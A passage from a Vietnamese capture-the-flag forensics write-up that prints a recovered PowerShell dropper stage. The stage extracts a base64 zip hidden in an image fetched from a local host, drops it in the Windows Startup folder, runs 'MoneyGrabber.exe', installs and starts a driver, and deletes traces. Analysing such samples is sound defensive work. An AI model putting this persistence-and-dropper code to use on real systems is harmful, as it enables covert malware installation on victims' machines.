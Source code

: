 ```

$re = New-Object System.Text.RegularExpressions.Regex("c4fc34f45386d4c98e26")
$stuff = [regex]::Split($content, $re)[1]
$zip = [System.Convert]::FromBase64String($stuff)

Set-Content "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\stuff.zip" -Value $zip -Encoding Byte

Expand-Archive -Path "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\stuff.zip" -DestinationPath "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"

Remove-Item "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\stuff.zip"

Start-Process "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\MoneyGrabber.exe" -NoNewWindow

pnputil.exe /add-driver "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\myDriver.inf" /install

sc.exe start myDriver

Remove-Item "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\myDriver.*"

# Write-Output "4_tH1nG_"
```
- Part 3 của flag cũng đã có và nó đã được cmt lại r.
##### Part 4.
- Nhìn vào đoạn script trên thì ta thấy nó có download 1 ảnh `money.png` từ `192.168.157.145:8080`
- Split tấm ảnh thành 2 phần từ byte này `c4fc34f45386d4c98e26`
- encode phần sau của tấm ảnh thành base64
- zip phần dữ liệu đó lại.
- Tìm kiếm và follow nó thì dữ liệu nó sẽ trông như thế này.
![1713902318684](image/writeup/1713902318684.png)